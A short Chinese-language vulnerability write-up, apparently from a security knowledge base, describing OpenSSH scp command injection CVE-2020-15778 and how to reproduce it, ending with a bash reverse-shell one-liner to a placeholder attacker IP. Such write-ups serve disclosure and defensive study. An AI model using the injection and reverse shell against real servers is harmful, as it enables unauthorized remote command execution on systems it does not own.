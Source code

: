 ```yaml
---
title: OpenSSH 命令注入漏洞 CVE-2020-15778
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - OpenSSH
---
```


# OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

> [!NOTE]
>
> OpenSSH <= 8.3p1

## 漏洞复现

> [!NOTE]
>
> 可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![](/img/20210924015558716474.png)

执行命令 ping dnslog

![](/img/20210924015558939864.png)

反弹shell 更换命令即可

```
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

